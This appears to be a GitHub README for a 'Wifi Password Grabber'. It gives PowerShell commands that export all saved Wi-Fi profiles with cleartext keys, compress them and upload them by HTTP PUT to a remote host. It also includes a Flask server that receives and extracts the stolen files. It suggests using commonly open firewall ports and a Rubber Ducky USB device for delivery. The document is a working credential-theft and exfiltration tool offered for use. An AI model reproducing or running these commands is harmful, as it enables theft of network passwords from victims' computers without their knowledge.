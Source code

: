 # Simple Wifi Password Grabber #
#### ↓ PowerShell command to get all saved passwords in system ↓ ####
`netsh wlan export profile key=clear` 
_**note:**  this exports all wifi networks into `C:\Users\<user>`) directory in .xml format._

#### ↓ PowerShell command to zip all XML files ↓ ####
`Compress-Archive -U .\*.xml -DestinationPath temp.zip`

#### ↓ PowerShell command to send file via Http PUT request ↓ ####
`Invoke-Restmethod -Uri http://[domain or IP]:[port]/temp.zip -Method Put -Infile .\temp.zip`
_**note:** use ports that are usually open by default in firewall, for example `80`._
### Run this code on server: ###
This code handle the zipfile and extract `XML` files into `passwords` folder.
```py
from flask import Flask, request
from zipfile import ZipFile
from os import remove

app = Flask(__name__)

def unzip_all_files():
    with ZipFile('data.zip', 'r') as zipObj:
        zipObj.extractall(path="passwords")
    remove("data.zip")

@app.route("/wpg/<file>", methods=["PUT"])
def data_handler(file):
    with open("data.zip", 'wb') as f:
        for chunk in iter(lambda: request.stream.read(16384), bytes()):
            f.write(chunk)
    unzip_all_files()
    return "done"
    
if __name__ == "__main__":
    app.run(port=80, host="0.0.0.0")
```
#### For localhost: ####
For localhost remove `host="0.0.0.0"`

#### Tip: ###
Use a Rubber Duck for better usage
